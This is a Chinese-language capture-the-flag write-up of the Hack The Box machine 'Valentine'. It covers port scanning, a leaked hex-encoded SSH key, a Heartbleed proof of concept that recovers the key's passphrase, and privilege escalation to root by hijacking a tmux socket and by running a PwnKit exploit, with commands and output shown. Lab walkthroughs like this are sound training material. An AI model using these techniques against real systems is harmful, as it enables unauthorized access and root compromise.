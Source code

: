 ## nmap

```Bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_ssl-date: 2023-01-09T11:13:29+00:00; 0s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```



## ssh

ssh的版本很低

searchexploit 没有匹配版本



## http

80和443展示同一张图片，下载下来分析了下没有什么特别的，所有的80页面都会重定向到443

目录爆破拿到的目录是用80爆的，但是打开也是自动跳转443

拿到一个有用的目录 /dev可以直接访问，两个文件看一下

![](https://secure2.wostatic.cn/static/dvb1KZ6MV4LWN9j6DYdCyZ/image.png?auth_key=1677500466-oeAaQ1YkW9kP526i3siHCa-0-0e135541dd425fd3214c34edf410a7c4)

![](https://secure2.wostatic.cn/static/pMVC9woso1mdqHpuBeJbw6/image.png?auth_key=1677500466-8acBXMLJ4i3m1gtirfsE2D-0-3ee52a1644b85b519e7943d9febd4bea)

hype_key下载下来，是一个ascii字符文件，不过是16进制编码的，看开头的编码明显是- - - - - BEGIN 明显是一个ssh的KEY文件

![](https://secure2.wostatic.cn/static/fST88KjyCypNBDDVeVo9ZG/image.png?auth_key=1677500466-tLCM77SrysBiCXonu6XUmx-0-2f907b89db165ac9fc5e8c5d2d34d0cb)

尝试解码

```Bash
# 把所有的空格去掉 
sed -i 's/ //g'  hype_key.copy

```

这里去空格操作是多余的，不需要

把拿到的16进制字符串去 https://www.rapidtables.com/convert/number/index.html 做下解码，得到rsa文件



图片暗示有心脏滴血漏洞，直接找poc看一下，拿到一段b64编码

![](https://secure2.wostatic.cn/static/d5LNDaj4ThAw5uVc4zyMMx/image.png?auth_key=1677500466-75srQaM4KFCsWwXxqzWsD1-0-fc3a97fd861307499e3e42652aac985a)



解码后得到一段提示，hype像是一个用户名，被主机信任，那么hype_key应该就是秘钥了

```Bash
┌──(root㉿walle)-[/home/machines/linux/valentine]
└─# echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d
heartbleedbelievethehype

```

使用用户hype和上面的rsa私钥登录，需要输入key，也就是我们得到的这段话，拿到hype的shell

![](https://secure2.wostatic.cn/static/coRnEb8cpmrYKcCPBiocze/image.png?auth_key=1677500466-n9M8YPb5bVzVSwwVFshwRF-0-4c5a59f24a30f4a0519968a0914910a7)



## privilege escalation

手动搜了下没有发现有用的，直接上LinEnum.sh

没有发现corn

### tumx

session提权参考这篇，讲的非常全面

[Linux Privilege Escalation - Exploiting Shell Sessions - StefLan's Security Blog (steflan-security.com)](https://steflan-security.com/linux-privilege-escalation-exploiting-shell-sessions/)

发现 root 在运行 tmux

```Bash
hype@Valentine:/dev/shm$ cat lin.txt   | grep tmux
/usr/bin/tmux
root        999  0.0  0.1  26416  1668 ?        Ss   03:02   0:01 /usr/bin/tmux -S /.devs/dev_sess

```

```Bash
# 这个scoket文件的group还贴心的给了hype
hype@Valentine:/.devs$ ls -lh dev_sess
srw-rw---- 1 root hype 0 Jan  9 03:02 dev_sess

# 通过socket拿到root
hype@Valentine:/.devs$ tmux -S dev_sess
[exited]

```



### pkexec - ok

这个机器上自带make，一把过

```Bash
hype@Valentine:/dev/shm$ cd PwnKit-Exploit/
hype@Valentine:/dev/shm/PwnKit-Exploit$ ls
b64payloadgen.sh  exploit.c  LICENSE  Makefile  pwnkit64decoded.c  README.md
hype@Valentine:/dev/shm/PwnKit-Exploit$ make
cc -Wall    exploit.c   -o exploit
hype@Valentine:/dev/shm/PwnKit-Exploit$ ls
b64payloadgen.sh  exploit  exploit.c  LICENSE  Makefile  pwnkit64decoded.c  README.md
hype@Valentine:/dev/shm/PwnKit-Exploit$ ./exploit
Current User before execute exploit
hacker@victim$whoami: hype
Exploit written by @luijait (0x6c75696a616974)
[+] Enjoy your root if exploit was completed succesfully
root@Valentine:/run/shm/PwnKit-Exploit# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),30(dip),46(plugdev),124(sambashare),1000(hype)
root@Valentine:/run/shm/PwnKit-Exploit#
root@Valentine:/run/shm/PwnKit-Exploit# cat /etc/issue
Ubuntu 12.04 LTS \n \l

```



### 内核漏洞直接提权 — gg

```Bash
root@Valentine:/run/shm/PwnKit-Exploit# cat /etc/issue
Ubuntu 12.04 LTS \n \l

root@Valentine:/run/shm/PwnKit-Exploit# uname -a
Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux

```



```Bash
# 精确命中内核和版本军，但是跑步起来
└─# searchsploit Ubuntu | grep 12.04 | grep 3.2.0-23
Linux Kernel 3.2.0-23/3.5.0-23 (Ubuntu 12.04/12.04.1/12.04.2 x64) - 'perf_swevent_init' Local Privilege Escalation (3)                                                                                | linux_x86-64/local/33589.c
Linux Kernel < 3.2.0-23 (Ubuntu 12.04 x64) - 'ptrace/sysret' Local Privilege Escalation                                                                                                               | linux_x86-64/local/34134.c

```

